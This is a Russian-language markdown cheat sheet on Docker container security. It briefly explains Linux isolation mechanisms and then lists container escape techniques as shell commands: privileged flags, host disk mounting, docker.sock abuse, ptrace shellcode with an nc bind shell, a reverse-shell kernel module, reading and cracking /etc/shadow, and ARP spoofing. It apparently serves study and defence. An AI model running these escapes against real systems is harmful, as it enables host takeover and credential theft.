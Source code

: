 Безопасность контейнеров

### Меры безопасность Linux
* Capabilities - полномочия ОС
```
https://man7.org/linux/man-pages/man7/capabilities.7.html
/proc/sys/kernel/cap_last_cap
$ capsh --print # проверить что сейчас в системе
```
* Linux namespace - абстракция над ресурсами ОС
```
ll /proc/$BASHPID/ns/ # отображает ссылки на пространства имён (namespaces) текущего или указанного процесса
lrwxrwxrwx 1 dev dev 0 Sep 18 12:15 uts -> 'uts:[4026532193]'
	4026532193 - это inode пространства имён. Если два процесса имеют одинаковый идентификатор для одного типа пространства, они находятся в одном изолированном окружении.
	cgroup → Управление ресурсами (cgroups).
	ipc → Изоляция межпроцессного взаимодействия (IPC).
	mnt → Изоляция файловой системы (точки монтирования).
	net → Сетевая изоляция (интерфейсы, порты, маршруты).
	pid → Изоляция дерева процессов (PID).
	pid_for_children → Будущие дочерние процессы унаследуют это пространство имён PID.
	user → Изоляция пользователей и групп.
	uts → Изоляция hostname и domainname.
```
* Cgroups - изоляция ресурсов хоста (CPU, RAM, ввод/вывод)
* AppArmor или SELinux - ограничения приложений LSM
* Seccomp - ограничения системных вызовов к ядру eBPF

Как выбраться из контейнера

### Отключить меры защиты при запуске контейнера
Любой флаг критичен
```
docker run -it \
	--privileged \ 
	--cap-add=ALL \
	--security-opt apparmor=unconfined \
	--security-opt seccomp=unconfined \
	--security-opt label:disable \
	--pid=host \
	--userns=host \
	--uts=host \
	--cgroupns=host \
```

### Монтирование хостовой системы в контейнер (нужно CAP_SYS_ADMIN, выключен AppArmor)
```
# Запускаем уязвимый контейнер
(host)$docker run -it --cap-drop=ALL --capadd=
SYS_ADMIN --security-opt apparmor=unconfined --device=/dev/:/
ubuntu bash

# Монтируем хостовую файловую систему
root@a99040cc6319:/# mount /vda2 /mnt
root@a99040cc6319:/# ls /mnt
bin dev home lib32 libx32 media opt root sbin srv tmp var
boot etc lib lib64 lost+found mnt proc run snap sys usr
```

### Использование примонтированного Docker Socket (/var/run/docker.sock)
```
# Запускаем уязвимый контейнер
(host)$ docker run -it -v /var/run/docker.sock:/run/docker.sock docker:dind /bin/sh

# Внутри контейнера запускаем новый привилегированный контейнер
~# docker run -it --privileged -v /:/host/ ubuntu bash -c "chroot /host/"

```

### Инъекция shell-code (нужно SYS_PTRACE и -pid=host)
```
# В контейнере должны быть тулзы
apt install vim # or any other editor
apt install gcc
apt install net-tools
apt install netcat

# Запускаем сервер HTTP для PoC и уязвимый контейнер
(host)$ /usr/bin/python3 -m http.server 8080
(host)$ docker run -it --pid=host --cap-add=SYS_PTRACE --security-opt apparmor=unconfined ubuntu bash

# Эксплуатация уязвимости
# List process that runs on the host and container.
ps -eaf | grep "/usr/bin/python3 -m http.server 8080" | head -n 1
# Copy and paste the payload from inject.c https://gitlab.com/devijoe/docker-attacks/-/blob/main/attack_3%20-%20ShellCode/inject.c
vim inject.c
gcc -o inject inject.c
# Inject the shellcode payload that will open a listener over port 5600
./inject <PID>
# Bind over port 5600
nc <HOST-IP> 5600
```

### Инъекция модуля ядра (нужно SYS_MODULE)
```
# Запускаем уязвимый контейнер
(host)$ docker run -it --cap-add=SYS_MODULE ubuntu:latest bash

# Атака
git clone https://gitlab.com/devijoe/docker-attacks/-/blob/main/attack_4%20-%20Kernel%20Module%20injection/reverse-shell.c
cd docker-attacks/attack_4 - Kernel Module injection
make
nc -lnvp 4444 & /usr/sbin/insmod reverse-shell.ko
```

### Чтение секретов с хоста (нужно DAC_READ_SEARCH)
```
# Запуск уязвимого контейнера
(host)$ sudo docker run -it --cap-add=DAC_READ_SEARCH ubuntu bash

# Чтение хэша пароля от рута из хоста
# Copy the shocker.c https://gitlab.com/devijoe/docker-attacks/-/blob/main/attack_5%20-%20Reading%20and%20Overriding%20host%20files/shocker.c?ref_type=heads
vim shocker.c
gcc -o shocker shocker.c
# Use the shocker to read files from host:./shocker /host/path /container/path
./shocker /etc/passwd passwd
./shocker /etc/shadow shadow
# Combine passwd and shadow files 
unshadow passwd shadow > password
# Use John the Ripper to crack passwords
john password
# Connect to the host with the John the ripper’s output credentials
ssh <USER-NAME>@<HOST-IP>
password: <password from john’s output>
```

### ARP spoofing (по умолчанию возможна! )
```
# стенд
// Dockerfile
FROM debian:buster
RUN apt-get update \
 && apt-get install -y iputils-ping dnsutils net-tools dsniff netcat tcpdump

// docker-compose.yml
version: '3.2'
services:
  receiver:
    build: "./"
    command: nc -l -p 80
    logging:
      driver: none
  sender:
    build: "./"
    command: bash -c "while true; do echo 'secret message'; sleep 5; done | nc receiver 80"
    depends_on:
      - receiver
  attacker:
    build: "./"
    command: tcpdump -A 'tcp'
    container_name: "attacker"
    tty: true

# Запуск уязвимого контейнера
(host)$ docker-compose up --build -d

# Старт атаки
# docker exec attacker /usr/sbin/arpspoof -r -t sender receiver
```
